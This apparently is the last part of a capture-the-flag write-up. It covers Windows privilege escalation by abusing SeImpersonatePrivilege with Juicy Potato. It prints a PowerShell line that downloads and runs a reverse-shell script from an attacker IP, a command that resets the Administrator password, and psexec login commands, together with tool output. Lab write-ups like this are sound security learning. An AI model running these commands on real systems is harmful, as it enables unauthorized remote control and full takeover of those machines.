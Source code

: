 ## Alternate Privesc 
### Juicy Potato
Looking at the privilegees of the user we notice that `SeImpersonate` is enabled. 
```
PS C:\tmp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

As BITS is disabled we can't use rotten or lonely potato. However, `juicy potato` can make use of other `COM` server and any port other than `6666`. we can download `JuicyPotato.exe` from releases.
```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
we'll create a `rev.bat` script which execute powershell `Invoke TCP` and give us reverse shell. 
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24/Invoke-PowerShellTcp.ps1')"
```
Similary, we can create a script(pwned.bat) to change the `Administrator` passowrd and login with `PSEXEC` with those credentials
```
net user Administrator pwned
```

we need to transfer both `pwned.bat` and `JuicyPotato.exe` on to the machine . Then we need valid `CLSID` to exploit it. There a list of [CLSID for Windows 10 Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise) and we can choose one which gives `NT AUTHORITY\SYSTEM`.

we need to run binary with required arguments.
```
PS C:\tmp> ./JuicyPotato.exe -t * -p c:\tmp\pwned.bat -l 9001 -c '{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}'
Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 9001
......
[+] authresult 0
{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
we can use `psexec` to get a shell as `SYSTEM`.
```
psexec.py conceal/administrator:pwned@10.10.10.116
```
Thank you for taking you're time for reading this blog!.

